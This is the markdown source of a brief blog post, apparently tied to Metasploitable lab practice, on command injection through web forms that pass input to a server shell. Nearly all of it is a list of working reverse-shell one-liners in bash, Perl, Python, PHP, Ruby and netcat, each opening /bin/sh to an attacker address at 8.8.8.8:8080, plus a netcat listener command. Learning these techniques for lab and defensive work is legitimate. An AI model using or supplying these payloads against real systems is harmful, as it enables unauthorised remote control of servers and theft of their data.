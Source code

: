 +++
categories = ["File Vulnerability", "Metasploitable"]
date = "2021-01-20"
title = "Vulnerability Code Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

Sometimes webs let us use the internal terminal of their server to maybe perform a specific task, like sending a ping. In that case we can try to add a `;` or `|` after the valid argument so we can execute our own commands. In this case we can try to connect to the server shell.

The next examples are so the attacker ip is 8.8.8.8 and we are using the port 8080. So is all this cases we would have to set a terminal listening to the port 8080 by `nc -vv -l -p 8080`

* Bash 
```
bash -i >& /dev/tcp/8.8.8.8/8080 0>&1
```

*  Perl
  
```
perl -e 'use Socket;$i="8.8.8.8";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Python
  
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.8.8.8",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

*  PHP
  
```
php -r '$sock=fsockopen("8.8.8.8",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Ruby

```
ruby -rsocket -e'f=TCPSocket.open("8.8.8.8",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* Netcat

```
nc -e /bin/sh 8.8.8.8 8080
```